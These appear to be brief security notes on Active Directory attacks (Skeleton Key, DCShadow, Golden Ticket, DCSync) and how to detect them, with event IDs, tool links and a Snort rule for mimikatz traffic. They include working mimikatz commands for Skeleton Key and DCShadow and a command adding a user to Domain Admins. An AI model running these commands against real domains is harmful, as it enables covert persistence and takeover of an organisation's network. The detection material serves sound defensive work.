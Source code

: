 Skeleton Key - RC4 only - backdoor in memory - mimikatz pw is mimikatz 
    mimikatz#   misc::skeleton

DCShadow - need Domain Admin - temp register wks as DC.  Can update DC with no logs (log should be generated on source DC which is us)
	mimikatz#  lsadump::dcshadow /object:CN=Administrator,CN-User,DC=SYNCTECH,DC=COM /attribute:description /value:"DCShadow was here"
	mimikatz# lsadump::dcshadow /push

Domain Detection
	net group "Domain Admins" bob /domain /add
	EventID 4728 shows who added user to Domain Admin

Detecting Skeleton Key	
	https://gallery.technet.microsoft.com/Aorato-Skeleton-Key-24e46b73

Detecting Golden Ticket
	klist - long validity time 
	EventID 4769

Detecting DCSync
	DRSUAPI  - MS-DRSR  
	Should not be between workstation and DC

Detecting DCShadow
	EventID 5137 and then 5141  (created and deleted directory service object)
	github/AlsidOfficial/UncoverDCShadow/blob/master/README.md
  
  alert tcp any any -> any any (msg:"Mimikatz DRSUAPI DsGetNCChanges Request"; flow:established,to_server; flowbits:isset,drsuapi; content:"|05 00 00|"; depth:3; content:"|00 03|"; offset:22 depth:2; reference:url,blog.didierstevens.com; classtype:policy-violation; sid:1000002; rev:1;)

Detect Exfil
	EventID 5140 failures (network share accessed)
  
  
